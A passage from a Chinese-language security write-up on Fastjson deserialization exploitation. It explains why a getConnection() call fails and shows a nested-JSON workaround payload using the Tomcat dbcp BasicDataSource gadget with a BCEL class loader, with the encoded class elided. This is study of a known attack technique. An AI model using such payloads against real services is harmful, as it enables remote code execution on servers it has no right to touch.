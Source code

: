 但运行后并未成功执行恶意类中编写的命令，问题出在了哪里呢？经过一番调试，发现并没有调用到`getConnection()`方法，原因是该方法返回的类型为`Connection`，不满足我们前面说过的继承于`Collection`、`Map`、`AtomicBoolean`、`AtomicInteger`和`AtomicLong`之中的任意一个类的条件。

有两种办法解决该问题。

第一种就是再使用一层`{}`将其包裹，变成如下的格式：

```json
{
       {
         "aaa":{
                  "@type":"org.apache.tomcat.dbcp.dbcp.BasicDataSource",
                   "driverClassLoader":{
                     "@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
                    },
                   "driverClassName":"$$BCEL$$......"
       }
     }:"bbb"
}
```

此时会把`{}`当做一个`JSONObject`对象进行逐层解析
![image-20221229172644495](images/image-20221229172644495.png)
